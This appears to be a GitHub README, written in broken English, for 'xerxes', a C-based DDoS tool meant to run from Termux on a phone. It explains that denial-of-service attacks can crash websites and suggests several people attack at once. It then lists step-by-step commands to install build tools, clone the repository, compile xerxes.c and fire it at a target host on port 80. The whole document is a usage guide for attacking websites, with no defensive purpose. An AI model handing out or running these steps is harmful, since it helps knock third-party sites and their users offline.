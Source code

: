 # xerxes
DDoS Attack Using Termux

DDos Is A Cyberattack (Denial Distribution Of Service) With the help of Ddos Attack One Can Shutdown A whole Website(if successful), In ddos Attacker makes botnet and Send programmed request to target servers

What is the Xerxes Tool?
This Tool is an open source DDOS Attack Tool written in C programming Language.

Usually this attack can also be done using other linux based OS.

Site Crash with Termux?
Since this process is done by Telephone, that is, via Termux, the Site does not collapse easily, but when this process is performed with more than 1 person, there may be a slowdown in the Site.

Since this is a minor attack, it does not affect Large sites (Google, Facebook, etc.)
Termux Xerxes installation?
Download Termux from Google Play…

 Write Commands, respectively

(1) apt update

(2) apt upgrade

(3) pkg install git

(4) pkg install clang

(5) git clone 

(6) cd Xerxes

(7) clang xerxes.c -o xerxes

(8) ./xerxes www.example.com 80
